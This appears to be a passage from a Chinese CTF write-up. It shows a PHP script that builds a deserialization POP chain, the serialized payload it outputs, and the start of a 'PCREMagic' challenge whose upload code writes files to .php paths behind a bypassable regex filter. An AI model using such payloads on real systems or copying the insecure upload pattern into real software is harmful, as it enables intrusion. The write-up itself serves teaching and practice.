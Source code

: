 输出pop链的脚本为

```php
<?php

class Start{
    public $name;
    public $func;
}

class Sec{
    public $obj;
    public $var;
}

class Easy
{
    public $cla;
}

class eeee{
    public $obj;

}
$a=new Start();
$a->name=new Sec();
$a->name->obj=new Easy();
$a->name->var=new eeee();
$a->name->var->obj=new Start();
$a->name->var->obj->func=new Sec();
echo serialize($a);

```

得到pop链

```php
O:5:"Start":2:{s:4:"name";O:3:"Sec":2:{s:3:"obj";O:4:"Easy":1:{s:3:"cla";N;}s:3:"var";O:4:"eeee":1:{s:3:"obj";O:5:"Start":2:{s:4:"name";N;s:4:"func";O:3:"Sec":2:{s:3:"obj";N;s:3:"var";N;}}}}s:4:"func";N;}
```

传参后得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737799731994-0f615433-e7a5-47c1-b22b-e17a68272611.png)

#### PCREMagic
```php
 <?php
function is_php($data){
     return preg_match('/<\?php.*?eval.*?\(.*?\).*?\?>/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = 'data/' . md5($_SERVER['REMOTE_ADDR']);
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    if (!is_dir($user_dir)) {
        mkdir($user_dir, 0755, true);
    }
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
```